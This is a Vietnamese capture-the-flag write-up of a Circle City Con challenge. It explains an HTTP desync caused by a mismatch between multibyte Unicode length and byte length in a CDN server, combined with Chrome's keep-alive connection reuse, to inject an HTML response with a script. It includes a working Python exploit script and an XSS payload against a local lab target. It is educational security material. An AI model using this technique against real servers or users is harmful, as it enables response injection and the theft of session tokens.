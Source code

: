 Một challenge rất hay do `qxxxb` viết trong giải `Circle City Con 8.0` vào năm 2020, thông qua challenge này đã giúp mình hiểu hơn về HTTP desync và browser, cùng vào bài nào

## Goal bài và trở ngại
- Bài gồm 1 frontend server và 1 CDN server chứa các notes do user tải lên. CDN chứa 1 endpoint để get flag nhưng cần có token đúng
- Ta cần tìm ra cách để lấy được token do bot nắm giữ, token này nằm trong cookie của bot khi nó visit các note của ta
- Các note tải lên được lưu vào file và không thông qua hàm encode/sanitize nào tuy nhiên khi trả về từ CDN thì `Content-Type` luôn là `plain/text` do đó không thể XSS trực tiếp

## HTTP Desync
Tại `notes.py` là source code của CDN server, server này được tác giả implement từ raw TCP, đọc đến hàm `send_file` nơi xử lý việc trả về các notes cho user ta sẽ thấy một bug có thể lead đến HTTP desync:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d6cf50ea-d598-4fb4-a454-9352d209de91)

Hàm `http_header` sẽ prepare phần header cho response:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/7f1d20e1-9bd1-4b91-9ec5-9bc98da0b06b)

Để ý thấy trong header thì length của message được lấy sau khi convert lại từ bytes về string, nhưng khi đem message đi chia thành các chunk thì lại dùng message ở dạng `bytes`, nghĩa là nếu ban đầu message chứa các multibytes unicode thì chắc chắn length khi decode về string sẽ ít hơn so với khi gửi => **HTTP Desync**
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/ace4d6b9-9f82-4d5e-881a-8f87f322340d)

Vậy ta có thể inject thêm 1 response về response gốc của server CDN, vậy ta có thể làm gì với lỗi này?

## Chrome implementation
Chrome có hỗ trợ parallel connection, bằng chứng là khi truy cập vào web ta sẽ thấy nhiều tài nguyên được load cùng lúc, ví dụ như `favicon.ico`, `styles.css`, `main.js` sẽ được load cùng lúc chứ không tuyến tính. Tuy nhiên số tài nguyên được load cùng lúc lại bị giới hạn lại, với mỗi domain thì chrome sẽ chỉ cho phép **6** parallel connection.

Để tiết kiệm tài nguyên, chrome sẽ không luôn luôn khởi tạo 1 TCP connection mới để load resource, mà sẽ check xem có TCP connection nào có thể reuse được không bằng cách kiểm tra `Connection` header, nếu mang giá trị `keep-alive` thì chrome sẽ biết connection này có thể reuse được và tiếp tục fetch resource thông qua tcp connection này.

Như ta thấy thì trong response header của cdn sẽ luôn có `Connection: keep-alive`, vậy liệu ta có thể kết hợp bug HTTP desync ta có và Chrome implementation lại hay không? 

## Exploitation idea
Vì đặc điểm của CDN server là nó sẽ chia response thành các chunk dài 1448 bytes và sleep 0.1s sau mỗi lần gửi, nên ta có thể tạo 1 note chứa payload khiến response bị split ra, 5 note còn lại sẽ khiến cho cả 6 connection bị lock, ngay khi connection của evil note ta tạo ban đầu load xong n bytes đầu tiên, nó sẽ tiếp tục reuse connection để load tiếp các bytes chứa phần response mà ta đã inject vào

Anatomy:
```
-----------------------------------------------------------
admin bot -------------------------------> frontend
admin bot --------------node#0-----------> CDN ( finish in ns )
admin bot --------------node#1-----------> CDN ( finish in n+1s )
admin bot --------------node#2-----------> CDN ( finish in n+1s )
admin bot --------------node#3-----------> CDN ( finish in n+1s )
admin bot --------------node#4-----------> CDN ( finish in n+1s )
admin bot --------------node#5-----------> CDN ( finish in n+1s )
admin bot --------------node#6-----------> CDN (reuse connection of node#0, fetch malicious response)
-----------------------------------------------------------
```

Chrome bắt buộc các HTTP response phải nằm trong các TCP chunk khác nhau, do đó ta sẽ phải canh chỉnh để khiến HTTP response align đúng theo quy tắc này:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/5dd87041-3d0c-41f1-a7d7-efbc51ece7fa)

Ở đây ký tự `¡` sẽ chiếm 2 byte, ta sẽ pad 1448 byte `¡` và 1448 byte bao gồm (payload + padding) với cách craft trên thì `Content-Type` mà chrome nhận được sẽ là `2896`, thấp hơn nhiều so với length của response thực tế, bằng cách này thì `2896` bytes mà chrome đọc sẽ chỉ đến cuối của phần padding 1448 byte `¡`, phần padding "AAAA..." phía sau là để nâng length của response lên đúng bằng cuối phần padding chữ `¡` ban đầu, và response tiếp theo mà chrome fetch từ connection lúc nãy sẽ là response mà ta inject vào

```py
import requests 

def create_note(content, id):
    burp0_url = "http://localhost:3100/board/add_note"
    burp0_json={"body": content, "id": id}
    return "http://localhost:3101/" + id + "/" + requests.post(burp0_url, json=burp0_json).text.replace("\"", "")

    
def create_evil_note(id, script = "<script>alert()</script>"):
    
    payload = f"""HTTP/1.1 200 OK\r
Content-Type: text/html\r
Content-Length: {len(script)}\r
\r
{script}"""

    payload_len = 1448 
    payload = payload + "A" * (payload_len - len(payload))

    ans = "¡"*1448 + payload 
    create_note(ans, id)

def fill_5_other_connection(id):
    for i in range(5):
        create_note("😍"*(1448*10), id)


def exploit():
    res = requests.get("http://localhost:3100/create_board", allow_redirects=False)
    id = res.headers['location'][len("/board/"):]
    
    payload = "<script>alert(origin)</script>"

    create_evil_note(id, payload)
    fill_5_other_connection(id)
    create_note("a", id)

    print("payload at: " + id)

exploit()
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c5a149a6-4c9a-45a2-8b4d-8b737cdb5122)

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/747bc2b0-67a2-4943-9350-1fb2d258ac53)



